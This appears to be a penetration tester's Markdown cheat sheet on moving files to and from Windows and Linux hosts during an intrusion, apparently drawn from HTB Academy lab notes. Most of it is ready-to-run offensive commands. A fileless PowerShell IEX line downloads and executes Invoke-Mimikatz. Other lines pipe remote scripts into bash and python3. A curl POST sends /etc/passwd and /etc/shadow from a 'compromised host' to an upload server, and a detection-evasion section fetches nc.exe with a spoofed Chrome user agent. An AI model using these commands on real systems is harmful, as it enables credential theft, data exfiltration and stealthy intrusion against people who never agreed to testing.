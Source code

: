 #files #cybersec #transfering #powershell #linux #http/s #download #upload
## Windows File transfer methods

##### encdoe ssh key to base64

1. generate hash of key
```bash 
md5sum id_rsa
```
2. encode key to base64
``` bash
cat id_rsa |base64 -w 0;echo
```
3. decode and write on windows host
``` powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("base64blob="))
```
4. confirm hash
``` powershell
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

#### powershell web download

| **Method**                                                                                                               | **Description**                                                                                                            |
| ------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------- |
| [OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)                       | Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0). |
| [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)             | Returns the data from a resource without blocking the calling thread.                                                      |
| [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)               | Downloads data from a resource and returns a Byte array.                                                                   |
| [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)     | Downloads data from a resource and returns a Byte array without blocking the calling thread.                               |
| [DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)               | Downloads data from a resource to a local file.                                                                            |
| [DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)     | Downloads data from a resource to a local file without blocking the calling thread.                                        |
| [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)           | Downloads a String from a resource and returns a String.                                                                   |
| [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0) | Downloads a String from a resource without blocking the calling thread.                                                    |
###### examples:

``` powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

```powershell
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

##### Fileless method using ps

``` powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
or
```powershell
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

##### wget

```powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

### SMB donwloads
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

<span style="background:#ff4d4f">New versions of Windows block unauthenticated guest access</span>

```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```powershell  
net use n: \\192.168.220.133\share /user:test test
```

### FTP 

 #### Installing the FTP Server Python3 Module - pyftpdlib
 
```shell
sudo pip3 install pyftpdlib
```

```shell
sudo python3 -m pyftpdlib --port 21
```

#### Transferring Files from an FTP Server Using PowerShell

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt'
```

## Linux downlaods

#### wget
```shell
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

curl
```shell
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### filles downloads

```shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

```shell
 wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```


### upload server

```shell
sudo python3 -m pip install --user uploadserver
```

#### Pwnbox - Create a Self-Signed Certificate

```shell
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

```shell
mkdir https && cd https
```

```shell
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

### from compromised host

```shell
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

#### Linux - Creating a Web Server with Python3

```shell
python3 -m http.server
```

## Miscellaneous File Transfer Methods

#### Mounting a Linux Folder Using rdesktop
```shell
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```
#### Mounting a Linux Folder Using xfreerdp
```shell
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```
## transfer between 2 win hosts

```
net use \\networklocation\sharefolder password /USER:username
copy \*.bak \\networklocation\sharefolder\*.bak
```

# living of the land

## Using the LOLBAS and GTFOBins Project

LOLBAS  -> /upload , /download
GTFOBins > +file download or + file upload

## Evade detection

#### Listing out User Agents

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

#### Request with Chrome User Agent

```powershell

$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome

Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

LOLBAS & GTFOBINS

